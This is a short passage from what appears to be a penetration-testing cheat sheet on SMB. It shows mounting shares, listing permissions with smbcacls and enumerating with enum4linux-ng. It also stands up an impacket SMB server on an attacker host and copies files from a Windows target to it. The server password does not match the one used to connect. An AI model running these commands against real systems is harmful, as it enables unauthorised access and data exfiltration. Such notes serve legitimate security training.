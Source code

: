 {% tab title="Mount" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo mount -t cifs //10.10.10.10/share1 /mnt
</strong></code></pre>
{% endtab %}

{% tab title="Mount (auth)" %}
{% code overflow="wrap" %}
```bash
sudo mount -t cifs -o username=<USER>,password=<PASS> //<TARGET-IP>/"<SHARE>" <PATH-TO-MOUNT>
```
{% endcode %}
{% endtab %}

{% tab title="List Dir Perms" %}
```bash
smbcacls -N '//10.10.10.10/share1' /dir1
```
{% endtab %}

{% tab title="List Perms Recur" %}
{% code overflow="wrap" %}
```bash
$ for i in $(ls); do echo $i; smbcacls -N '//10.10.10.103/share1' /dir1/$i ; done
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="1. Server" %}
```bash
impacket-smbserver -smb2support share . -username test -password tes
```
{% endtab %}

{% tab title="2. Connect" %}
```powershell
net use x: \\10.10.14.4\share /USER:test test
```
{% endtab %}

{% tab title="3. Transfer" %}
```powershell
copy file1 x:\
```
{% endtab %}
{% endtabs %}

### Other

{% tabs %}
{% tab title="Enum (1)" %}
```bash
/opt/enum4linux-ng/enum4linux-ng.py 172.16.10.3 -A
```
{% endtab %}

